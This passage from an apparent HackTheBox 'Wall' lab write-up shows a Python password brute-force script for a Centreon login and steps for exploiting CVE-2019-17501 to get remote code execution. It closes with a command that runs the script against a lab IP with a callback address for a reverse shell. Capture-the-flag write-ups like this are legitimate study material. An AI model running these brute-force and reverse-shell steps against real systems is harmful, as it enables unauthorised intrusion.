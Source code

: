 ```py
        else:
            os.system('clear')
            print()
            print("[+] Trying %s:%s" %(username,line))
            print("[+] Password FOUND!!!!!")
            print("[+] Attempt number: %s" %iter)
            print("[+] Username: %s and Password: %s" %(username,line))
            print()
            break

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=True)
    parser.add_argument('-w', '--wordlist', help='Wordlist to be used', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    wordlist = args.wordlist

    '''Here we call the functions'''
    loginRequest(rhost,wordlist,username)
if __name__ == '__main__':
    main()
```

And we got the password for the admin user, which is `password1`

# RCE - CVE-2019-17501

Now, let's hunt rce on the app.

We go to `Configuration -> Commands -> Discovery`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-07-HackTheBox-Wall/2021-09-07-HackTheBox-Wall%2010:08:27.png)

Edit a command, and click the `Blue Button`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-07-HackTheBox-Wall/2021-09-07-HackTheBox-Wall%2010:09:02.png)

And we got the RCE

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-07-HackTheBox-Wall/2021-09-07-HackTheBox-Wall%2010:09:37.png)

Now, let's get a automated reverse shell, we'll use as base the script we used to brute force the password.

```sh
python3 brute_centreon.py -t 10.10.10.157 -u admin -w list.txt -ip 10.10.14.20 -p 448
```

